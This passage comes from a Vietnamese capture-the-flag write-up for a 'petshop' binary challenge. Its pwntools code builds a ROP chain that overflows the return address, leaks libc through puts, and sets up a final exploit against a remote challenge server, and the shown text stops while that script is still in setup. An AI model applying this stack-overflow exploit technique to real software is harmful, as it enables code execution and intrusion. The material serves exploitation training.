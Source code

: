 ### Build ropchain to leak libc 

Sau khi dựa trên stack, ta tính được offset để overwrite retaddr là 0x208 byte. Tới đây thì chúng ta dễ dàng build ropchain để leak libc.  

```python
poprdi   = binary_base + 0x1a13
ret      = poprdi + 1
putsgot  = binary_base + exe.got["puts"]
putsplt  = binary_base + exe.plt["puts"]
backaddr = binary_base + exe.symbols["main"]
payload1 = flat(b"A" * 0x208, poprdi, putsgot, putsplt, backaddr)

sell(0, payload1)

ru(b"reasonable!\n")

libc_leak = u64(p.recv(6) + b"\x00\x00")
libc_base = libc_leak - libc.symbols["puts"]
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"libc base = {hex(libc_base)}")
```

### Get shell 

Hoàn thiện exploit, có được shell của thử thách. Có một vấn đề nhỏ mà chúng ta cần chú ý ở hàm `sell` là 
```c
 if ( (unsigned int)__isoc99_sscanf(a1, "%d", &pet_list_idx) != 1 || pet_list_idx > 7 || !pet_list[pet_list_idx] )
    {
        return puts("Seller --> There are no pet in that index!");
    }
```
Nếu chúng ta chỉ tạo 1 con pet thì sau lần sell thứ nhất `pet_list` sẽ rỗng. Vậy để hợp lệ hóa cho bước kiểm tra này, mình sẽ tạo thêm 1 con pet nữa.  

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./petshop_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

# p = process(exe.path)
p = remote("103.163.24.78", 10001)

sl  = p.sendline
sa  = p.sendafter
sla = p.sendlineafter
rl  = p.recvline
ru  = p.recvuntil

def debug():
    gdb.attach(p, gdbscript = """
        b *main+82
        b *sell+367
        continue
    """)
    pause() 
```